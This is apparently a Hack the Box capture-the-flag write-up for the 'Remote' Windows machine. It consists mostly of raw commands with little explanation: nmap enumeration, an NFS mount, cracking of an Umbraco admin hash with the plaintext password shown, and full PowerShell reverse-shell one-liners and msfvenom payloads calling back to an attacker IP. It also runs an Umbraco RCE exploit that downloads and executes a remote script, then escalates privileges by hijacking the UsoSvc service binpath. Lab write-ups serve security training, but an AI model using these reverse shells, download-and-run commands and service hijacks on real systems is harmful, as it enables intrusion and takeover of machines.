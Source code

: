 +++
title = "Hack the Box: Remote"
date = 2023-01-22
description = "Hack the Box: Remote"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Remote

## Enumeration

### Nmap

```
# nmap -Pn --min-rate=10000 -sV -sC remote.htb -nvv -e tun0 -p- -A -T4

PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
2049/tcp  open  mountd        syn-ack 1-3 (RPC #100005)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3m26s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45222/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 64256/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60458/udp): CLEAN (Failed to receive data)
|   Check 4 (port 15893/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

```
# gobuster dir -u http://remote.htb -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -x txt,htm,html,js,jsp,jsa,php,sql,xml,log,asp,aspx
```

`sudo showmount -e remote.htb`

`sudo mount -t nfs remote.htb:/site_backups /mnt`

`strings App_Data/Umbraco.sdf | grep admin`

`adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{“hashAlgorithm”:“SHA1”}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50`

`b8be16afba8c314ad33d812f22a04991b90e2aaa = baconandcheese admin@htb.local:baconandcheese`

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.77 LPORT=4444 -f psh -o reverse.ps1`

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.244',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('10.10.15.244',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

`sudo python3 -m http.server 80 localhost:80`

`python3 /usr/share/exploitdb/exploits/aspx/webapps/umbraco.py -u admin@htb.local -p baconandcheese -i ‘[http://10.10.10.180](http://10.10.10.180 "http://10.10.10.180")’ -c powershell.exe -a “IEX (New-Object Net.WebClient).DownloadString(‘[http://10.10.15.77/reverse.ps1](http://10.10.15.77/reverse.ps1 "http://10.10.15.77/reverse.ps1")’)”``

`use exploit/multi/handler set payload windows/x64/shell_reverse_tcp set LHOST tun0 set ExitonSession false run CTRL^c sessions sessions -i 1`

`whoami type C:\Users\Public\user.txt 2914291796068d561105037356f72c2f`

``(new-object System.Net.WebClient).Downloadfile(‘[http://host/file.exe](http://host/file.exe "http://host/file.exe")’, ‘file.exe’)``

`whoami /priv`

`Get-Service -Name usosvc | Select-Object *``

`Get-WmiObject win32_service -filter “Name=‘usosvc’”`

`Get-WmiObject win32_service | ?{$_.Name -like ‘usosvc’} | select Name, DisplayName, State, PathName`

`Get-WmiObject win32_service -filter “Name=‘usosvc’” | Invoke-WmiMethod -Name Change -ArgumentList @(null,null,null,null,null,null,null,null,$null, “C:\Users\Public\Downloads\reverse2.ps1”)`

`Set-ItemProperty -Path “HKLM:\System\CurrentControlSet\Services\My Service” -Name ImagePath -Value “C:\Program Files (x86)\My Service\NewName.EXE”`

`msfvenom -p windows/shell_reverse_tcp lhost=10.10.15.77 lport=8888 -f exe --platform windows > reverse.exe`

`invoke-webrequest -Uri [http://10.10.15.77/reverse.exe](http://10.10.15.77/reverse.exe "http://10.10.15.77/reverse.exe") -OutFile reverse.exe`

`sc.exe config usosvc binpath= “C:\Users\Public\Downloads\reverse.exe”`

`sc.exe stop usosvc sc.exe start usosvc`
